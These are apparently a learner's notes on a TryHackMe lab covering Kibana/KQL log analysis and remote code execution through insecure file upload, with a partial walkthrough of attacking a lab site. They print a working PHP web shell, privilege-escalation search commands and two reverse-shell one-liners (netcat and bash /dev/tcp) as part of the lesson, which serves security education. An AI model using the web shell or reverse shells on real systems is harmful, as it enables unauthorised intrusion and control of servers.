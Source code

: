 Learning Objectives
	Learn about Log analysis and tools like ELK.
		Stack of 3 tools - Elasticsearch, Logstash, and Kibana. 
		Search engine and analytics tool that stores, indexes and analyzes data. 
	Learn about Kibana Query Language (KQL) and how it can be used to investigate logs using ELK.
		Used to query and analyze data in Elasticsearch. 
	Learn about RCE (Remote Code Execution), and how this can be done via insecure file upload.

Starting w/ ELK
	Kibana 
		Search bar: Enter queries using KQL
		Collections || Index Pattern: group of logs - single hosts, group of hosts w/ similar purpose
		Fields: Data attributes parsed from logs. (e.g., source IP, response, name)
		Timeline: Bar chart displaying event count over time 
		Documents (Logs): info on what's been logged. 
		Time filter: Specify timeframe (e.g., last 24 hours)
	KQL - Similar to Splunk's Search Processing Language (SPL)
		Searches documents for values 
			e.g., we'd use the following syntax to find all documents that matches a specific IP address:
				ip.address:"10.10.10.10" ++ other syntax below

| Query/Sntax  | Description                                                                                           | Example                                      |
| ------------ | ----------------------------------------------------------------------------------------------------- | -------------------------------------------- |
| ""           | Search documents for specific values                                                                  | "10.2.1.243"                                 |
| * (wildcard) | Searches documents for similar matches                                                                | South* (returns South America, South Africa) |
| OR           | Returns documents that contains either value provided                                                 | "South America" OR "Bolivia"                 |
| AND          | Returns documents that contain both values provided                                                   | "Joe" AND "25"                               |
| :            | Searches through a specified field of a document for a value (must be valid field from index pattern) | ip.address: x.x.x.x                          |
Lucene Query
		Used alongside Kibana and supports fuzzy terms (search for documents containing specific terms or regex)
TASK: 
	Our systems alerted the SOC team to a web shell being uploaded to the WareVille Rails booking platform on Oct 1, 2024. Our task is to review the web server logs to determine how the attacker achieved this.
To reduce the amount of 'hits' or log entries, we can click (+, only shows that value) or (-, removes it from log entries) Clicking on filters = applying relevant KQL syntax 

Analyzing the attack 
	File uploads vulnerabilities occur as a result of poorly implemented input validation. 
		Often exploited by remote code execution (upload malicious script directly to webserver) and XSS (steals cookies and send back to attackers server)
	Web Shell
		Remote access by uploading scripts to vulnerable servers. Once configured, attackers can use the infected system as if they own it. Moreover, they can run commands to modify and/or exfiltrate data, move laterally (privilege escalation) + they can add the infected host to a botnet and have it carry out attacks. 

Exploiting RCE via File Upload
	First, identify a vulnerable app. Then, create a malicious file that will allow RCE once uploaded. 
	e.g., PHP File w/ malicious script
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
This script displays an input field and after entering input, the underlying OS will run it using the system() PHP function, and the output is displayed to the user. 
	Here's what it looks like for the attacker. 
	![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)
Linux cmds we can run when probing infected hosts. 

| uname -a                                                  | Will give you some system information like the OS, kernel version, and more\|<br>\|id\|If the current user is assigned to any groups                                          |
| --------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ifconfig                                                  | Allows you to understand the system's network setup                                                                                                                           |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | \|Also helpful in privilege escalation attempts used to find files with writable permissions\|                                                                                |
| find / -perm -4000 -type f 2>/dev/null                    | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| nc -e /bin/sh <your-ip> <port>                            | A command used to begin a reverse shell via Netcat                                                                                                                            |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1                 | A command used to begin a reverse shell via bash                                                                                                                              |
Practical 
	Investigate logs 
	Recreate attack on frostypines.thm 
		access by referencing url in hosts file 
			echo "10.10.107.238 frostypines.thm" >> /etc/hosts
		
![[Pasted image 20250119171537.png]]
![[Pasted image 20250119171727.png]]
Before the attack, I created a shell.php file containing the code mentioned earlier in the room that executes a web shell when ran
Then, I navigated to the website's admin console by appending /admin to the url. From here, I created a new room that will allow us to upload input to the webserver.
	ADD Image

After uploading the file, I found the link by selecting 'copy image link' where it was supposed to be. 
![[Pasted image 20250119174350.png]]


